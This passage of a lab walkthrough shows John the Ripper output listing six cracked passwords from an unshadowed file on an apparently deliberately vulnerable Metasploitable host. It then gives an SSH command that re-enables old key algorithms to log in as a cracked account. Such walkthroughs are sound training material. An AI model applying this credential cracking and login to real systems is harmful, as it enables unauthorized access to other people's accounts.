 ```
└─$ john --show unshadowed.txt

sys:batman:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash
```

We cracked 6 passwords, 1 still left.

---

## SSH Login Using Cracked Credentials

Now let’s try SSH login using one of the cracked accounts.

We'll use the `msfadmin` account.

Since Kali's SSH client no longer supports old key exchange algorithms, override them:

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.100.10
```

It asks for the password, but since we cracked it earlier, we can log in successfully via SSH!

![Using the cracked password to ssh](images/Using_the_cracked_password_to_ssh.png)

---

## Conclusion
